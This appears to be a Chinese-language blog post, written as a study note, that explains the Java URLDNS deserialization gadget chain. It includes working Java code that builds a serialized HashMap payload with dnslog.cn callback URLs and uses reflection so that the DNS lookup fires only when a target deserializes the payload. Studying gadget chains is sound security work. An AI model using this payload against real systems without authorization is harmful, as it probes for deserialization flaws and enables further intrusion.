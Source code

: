 ```yaml
---
title: "CC重启之URLDNS补课"
onlyTitle: true
date: 2024-7-19 19:27:00
categories:
- java
- CC
tags:
- CC
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B888.jpg

---
```




在写CC6的时候，发现后半截是URLDNS的链，来重新构造一遍URLDNS。

他妈的，护网还被鸽了，面试是没挂过的，项目是没去过的。

## URLDNS

### DNS解析

漏洞触发点在InetAddress#getByName()能触发DNS解析

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717211430126.png)

同样来自于InetAddress的getHostAddress调用了getByName方法。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717211518306.png)

抽象类java.net.URLStreamHandler的hashCode调用了getHostAddress。注意这里是需要URL参数的hashCode()，而不是贼多方法都调用的那个无参hashCode()。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717211715438.png)

这个有参hashCode只在URL类中使用

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717212309900.png)

URL.hashCode()如下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717213805181.png)

那我们如何传参向hashCode呢？handler已经定义为URLStreamHandler了，this是把当前对象传进去。

>在URL类中先声明了抽象类URLStreamHandler的变量，后面会根据协议选择用哪个子类来处理这个URL
>
>>Java中可以先定义一个抽象类的变量，如URLStreamHandler handler，但不能用这个变量来实例化一个对象
>
>![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717220034094.png)

URL有公开的构造函数，我们用最简单那个

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717214433315.png)

我们用dnslog试一下（记得要加协议，构造函数传递到最后一个会进行判断）

```java
public static void main(String[] args) throws Exception {
    URL url = new URL("http://845yoh.dnslog.cn");
    url.hashCode();
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717214722789.png)

完全是没问题

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717214804868.png)



### 链接到readObject

调用URL.hashCode()的地方很多

官方给出的下一步是HashMap#hash()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717213010355.png)

正好在HashMap的readObject里调用了hash()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717213130350.png)

读一下上面那张图最后一个循环，循环从map中读取key和value。我们搞一个key为url的map去反序列化就行了。

我们先序列化

```java
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://icguiixgku.dgrh3.cn");
//        url.hashCode();
        HashMap<Object, Object> map = new HashMap<>();
        map.put(url,"godown");
        serialize(map);
    }
```

发现只是序列化就触发了DNS请求（我是太刀侠，提前预知了这里会DNS请求

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240719174318915.png)

发现在map.put的时候就调用了一遍hash

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240719174532780.png)

这没道理的，还没打到别人电脑上，DNS平台就有请求了，影响判断。我们得让put不触发dns请求

> 至于为什么要通过反射修改URL类而不是HashMap类，是因为HashMap本身并没有提供直接修改key的方法。这是因为Map接口的设计原则之一就是key的不可变性，一旦一个键值对被放入Map中，它的键就不能改变。如果改变了key，那么Map就无法定位到原来的条目。
>
> 如果你需要“修改”一个HashMap中的key，实际上的操作流程是：使用remove()方法移除旧的键值对。使用put()方法插入新的键值对。
>
> HashMap内键值对以Node的形式存储，链表链接，超过一定阈值还会变成红黑树

再倒回来看URL#hashCode()，如果hashCode值不为-1，则直接返回。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240719191216794.png)

那我们通过反射，在put前把值改为不等于-1，put后改为-1

完整代码如下：

```java
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://c6lmkl.dnslog.cn");
//        url.hashCode();
        HashMap<Object, Object> map = new HashMap<>();
        Field hashCode = url.getClass().getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,0);
        map.put(url,"godown");
        hashCode.set(url,-1);
        serialize(map);
//        unserialize("ser.bin");
    }
```

现在就不会误报了。由于DNS缓存刷新时间的问题，你需要多发几次包或者等一会儿再运行。

完整代码：

```java
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://c6lmkl.dnslog.cn");
        HashMap<Object, Object> map = new HashMap<>();
        Field hashCode = url.getClass().getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,0);
        map.put(url,"godown");
        hashCode.set(url,-1);
        serialize(map);
    }
```



漏洞应该是作者翻看URL这个与外界通信的类时发现的。有超多地方都调用的hashCode，仔细一看hashCode进一步进行了DNS解析。进一步寻找readObject触发到hashCode的链子。而不是作者从InetAddress开始找的，只是本文按顺序如此分析。